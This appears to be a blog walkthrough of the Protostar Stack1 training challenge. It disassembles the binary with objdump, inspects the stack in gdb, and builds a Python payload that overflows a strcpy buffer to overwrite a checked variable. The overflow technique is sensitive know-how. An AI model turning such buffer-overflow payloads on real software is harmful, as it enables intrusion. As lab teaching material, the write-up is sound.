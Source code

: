```yaml
---
title: Protostar - Stack 1
date: 2024-02-14 10:30:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack1]
---
```


## Conquering Stack1 at Protostar Machine

Greetings, hackers of the digital realm! Today, we will continue our journey  on [Protostar](https://exploit.education/protostar) machine  to conquer the [Stack1](https://exploit.education/protostar/stack-one/) binary.

This challenge requiring us to perform a stack overflow and override the next value in the buffer with specific value as we see later.

### **Challenge Overview**
- **Challenge Name:** [Stack1](https://exploit.education/protostar/stack-one/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary

let,s run stack1 binary and see it,s behavoior

![stack1 run](/assets/img/protostar/stack1-explore.png)

- We Found that the binary need an argument to work and after we run it with argument it run

### Step 2: Analysis
Disassemble stack1 binary

we can disassemble stack1 binary by `objdump`

```sh
objdump -M intel -d /opt/protostar/bin/stack1 | grep main -A 32
```

- `-M` stands for
- `-d` stand for
- we grep `main` from the disassembled output because `main` as we know is the entrypoint for any `C` program and first function executed from it.

objdump output:

![Stack1 Objdump](/assets/img/protostar/stack1-objdump.png)
    
Analysis:

1. Function Prologue:

- `push ebp`  Save the base pointer.
- `mov ebp, esp`  Set up a new base pointer.
- `and esp, 0xfffffff0` Align the stack.
- `sub esp, 0x60` Allocate space for local variables.

2. Conditional Check:

- `cmp DWORD PTR [ebp+0x8],0x1`  Compare the value at `[ebp+0x8]` with `0x1`.
- `jne 8048487 <main+0x23>` Jump to `0x08048487` if the comparison is not equal.

3. Branches:

 If the condition is not met, the program jumps to `0x08048487`, Otherwise, it continues with the next instructions.

4. Function Calls and Memory Operations:

- `call 8048388 <errx@plt>` Calls the `errx` function.
- `call 8048368 <strcpy@plt>` Calls the `strcpy` function.
- `call 8048378 <printf@plt>` Calls the `printf` function.

5. Memory Comparisons:

- `mov eax,DWORD PTR [esp+0x5c]` move value at pointer `esp+0x5c` and store it in `eax`
- `cmp eax, 0x61626364`: Compare the value in `eax` with `0x61626364`.

6. Conditional Jumps:

- `jne 0x80484c0` <main+0x5c>: Jump to `0x080484c0` if the comparison is not equal.
- `jmp 0x80484d5` <main+0x71>: Jump to `0x080484d5` unconditionally.

7. Function Epilogue:

- `leave` Restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` Return from the function.

Now we understand the flow of program :

1. during run it first check argument provided and if no args provided it call errx with a error message which print it and exit 
2. argument provided will be copied to buffer
3. check if `[esp+0x5c]==0x61626364` then call puts,print then return and else call print only and return 

`[esp+0x5c]` is interesting , we need to check to it when debugging

### Step 3: Debugging

- first let,s write simple script for fuzz let,s call it `fuzz.py`

`~/fuzz.py` :

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```

- now let,s debug `stack1` binary useing `gdb`
```sh
gdb /opt/protostar/bin/stack1
```
now let,s disassemble main, and break point at mov eax,ptr dword[esp+0x5c]
```sh
set disassembly-flavor intel
disassemble main
```
![Stack1 on GDB](/assets/img/protostar/stack1-gdb-main.png)

now let,s breakpoint at `0x080484a7 <main+67>:	mov   eax,DWORD PTR [esp+0x5c]` to examine value at pointer `esp+0x5c` 
```sh
break *0x080484a7
```

now let,s run our program `stack1` with argument that contain our fuzzing value
```sh
run $(python ~/fuzz.py)
```

![Stack1 on gdb final](/assets/img/protostar/stack1-gdb-final.png)

show value at pointer at `esp+0x5c` with :

```sh
x/wx $esp+0x5c
```

when we get value at pointer at $esp+0x5c we found it = `0x51515151`

let,s get the ascii value of `0x51`

![Python chr(0x51)=Q](/assets/img/protostar/python-chr-51h.png)

so `0x51515151` represent `QQQQ` and  we need to make `esp+0x5c` = `0x61626364` to make the cmp instruction work truthy


### Step 4: Craft Solution 

okay let,s update our script: `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
esp_plus_5c="\x64\x63\x62\x61" # represent 0x61626364 on little endian machines
print(fuzz+esp_plus_5c)
```

now run `stack1` binary with our crafted soluation:

```sh
/opt/protostar/bin/stack1 $(python ~/fuzz.py)
```

and it Works !
![Stack1 Solved](/assets/img/protostar/stack1-solved.png)

